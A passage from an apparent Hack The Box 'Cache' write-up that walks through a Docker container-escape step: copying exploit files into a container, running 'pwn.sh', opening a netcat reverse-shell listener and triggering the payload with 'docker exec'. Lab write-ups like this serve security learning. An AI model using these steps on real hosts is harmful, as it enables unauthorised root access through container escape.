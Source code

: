 Since the exploit requires us to copy files into the docker container, we will need to find out the container name using `docker ps -a`. 

Do note that the docker container will be stopped once you exit the interactive session. 

```bash
luffy@cache:/dev/shm/null$ docker ps -a
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS                     PORTS               NAMES
244232c45b0b        ubuntu              "/bin/bash"         11 seconds ago      Exited (0) 3 seconds ago                       eager_goodall
```

Next, using the command `docker cp <file> <container_name>:/`, we can copy the exploit files from the remote server into the docker container. 

```bash
luffy@cache:/dev/shm/null$ docker cp exploit eager_goodall:/
luffy@cache:/dev/shm/null$ docker cp payload eager_goodall:/
luffy@cache:/dev/shm/null$ docker cp pwn.sh eager_goodall:/
```

*I strongly recommend using tmux for this next section.*

We will next start and attach to the docker container again using `docker start <container_name>` and `docker attach <container_name>`. 

![078ec96ef6a985f9c262dcf85953b61f.png](/images/htb-cache/9baef3ad7b23471bbb2bc4fa29525490.png)

Next, run `pwn.sh` to start the exploit. 

![bcb5d53b9db3037240600549be07f408.png](/images/htb-cache/c0c5593b82c44fe2b2b048171dff520f.png)

Using a split pane, start a netcat listener using `nc -lvnp 4455`. Then using yet another split pane, trigger the exploit using `docker exec -it <container_name> /bin/sh`.
